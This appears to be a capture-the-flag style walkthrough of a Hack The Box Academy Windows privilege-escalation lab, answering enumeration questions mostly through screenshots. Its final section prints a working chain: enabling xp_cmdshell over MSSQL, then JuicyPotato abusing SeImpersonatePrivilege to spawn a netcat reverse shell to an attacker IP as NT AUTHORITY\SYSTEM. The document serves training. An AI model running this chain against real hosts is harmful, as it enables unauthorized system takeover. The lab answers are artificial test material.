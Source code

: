 ## Situational Awareness

What is the IP address of the other NIC attached to the target host?
```bash
ipconfig /all
```
![image](https://github.com/user-attachments/assets/26cdad1b-236a-473e-82ae-f41dcf8cb1b6)

What executable other than cmd.exe is blocked by AppLocker?
```bash
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
![image](https://github.com/user-attachments/assets/96d197df-0e0b-41c9-8a1a-666803104a78)

## Initial Enumeration

What non-default privilege does the htb-student user have?

![image](https://github.com/user-attachments/assets/160484cc-3379-4ac9-b05e-c868d60fc714)

Who is a member of the Backup Operators group?

![image](https://github.com/user-attachments/assets/378109a5-9bc3-436e-8a14-44d38f2f5048)

![image](https://github.com/user-attachments/assets/7dfa0584-42a7-4864-8239-1f9da4be8983)

What service is listening on port 8080 (service name not the executable)?

![image](https://github.com/user-attachments/assets/2189cc24-c959-4bb2-bd3e-2314fa994898)

![image](https://github.com/user-attachments/assets/7de6243b-c79d-435f-bafb-18d24a061729)

What user is logged in to the target host?

![image](https://github.com/user-attachments/assets/8c88529d-7684-4b45-a2b2-8a5914d531da)

What type of session does this user have?

(Answer in above screenshot)

## Communication with Processes

What service is listening on 0.0.0.0:21? (two words)

![image](https://github.com/user-attachments/assets/33c0d126-0471-4ebd-9902-4ec45a4f8a3e)

![image](https://github.com/user-attachments/assets/d22868ff-a8c1-4a3a-9ccb-88265072aa78)

Which account has WRITE_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe?

![image](https://github.com/user-attachments/assets/fd4ae87e-71bf-4a08-a30b-aea6980636b8)

## SeImpersonate and SeAssignPrimaryToken

Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt

Step 1 : Establish SQL Connection with mssqlclient.py

We connect to the target SQL server using mssqlclient.py with Windows authentication:
```bash
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```
Output:
```bash
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
```
Step 2: Enable xp_cmdshell

The xp_cmdshell stored procedure allows us to execute commands at the OS level. We enable it as follows:
```bash
SQL> enable_xp_cmdshell
```
Output:
```bash
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```
Step 3: Verify Current User Permissions

To understand our current privileges, we run:
```bash
SQL> xp_cmdshell whoami
```
Output:
```bash
nt service\mssql$sqlexpress01
```
We also check available privileges:
```bash
SQL> xp_cmdshell "whoami /priv"
```
Output:
```bash
SeImpersonatePrivilege        Impersonate a client after authentication    Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                     Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks             Enabled
SeCreateGlobalPrivilege       Create global objects                        Enabled
```
We have SeImpersonatePrivilege, which is exploitable using JuicyPotato.

Step 4: Launch JuicyPotato for Privilege Escalation

We use xp_cmdshell to launch a reverse shell using JuicyPotato:

```bash
SQL> xp_cmdshell "c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a \"/c c:\tools\nc.exe 10.10.14.51 4444 -e cmd.exe\" -t *"
```
Output:
```bash
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08
```
We successfully escalated to NT AUTHORITY\SYSTEM and executed a reverse shell.

Step 5: Catch the Reverse Shell

On the attacker machine:
```bash
sudo nc -lnvp 4444
```
Output:
```bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
Step 6: Retrieve the Flag

Finally, we navigate to the Administrator's desktop and read the flag:
```bash
PS C:\Windows\system32> Get-Content c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
```

